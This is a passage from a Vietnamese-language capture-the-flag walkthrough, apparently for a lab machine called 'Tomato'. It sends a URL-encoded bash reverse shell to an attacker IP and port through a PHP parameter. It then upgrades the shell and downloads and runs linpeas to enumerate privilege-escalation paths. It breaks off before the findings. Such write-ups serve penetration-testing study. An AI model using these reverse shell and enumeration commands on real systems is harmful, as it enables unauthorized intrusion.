     ![Untitled](Tomato%2024412ba48bed406b92b925097995c323/Untitled%2019.png)
    
- Truyền lên cho param `0` một payload để thực hiện reverse shell
    
    ```php
    bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.31.129.169%2F9999%200%3E%261"
    ```
    
    Trong đó 
    
    - 172.31.129.169: là ip của máy attacker
    - 9999: là port mà ta mở để nghe

Sau khi gửi lên, sẽ có 1 kết nối tới máy của ta

![Untitled](Tomato%2024412ba48bed406b92b925097995c323/Untitled%2020.png)

Do shell mặc định này khá cùi nên mình sẽ nâng shell lên

![Untitled](Tomato%2024412ba48bed406b92b925097995c323/Untitled%2021.png)

Lúc này mình sẽ thử chạy 1 file linpeas để nó scan toàn bộ hệ thống xem có thể khai thác được gì không.

```php
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

Chạy xong thì đây là những thứ mình quan tâm
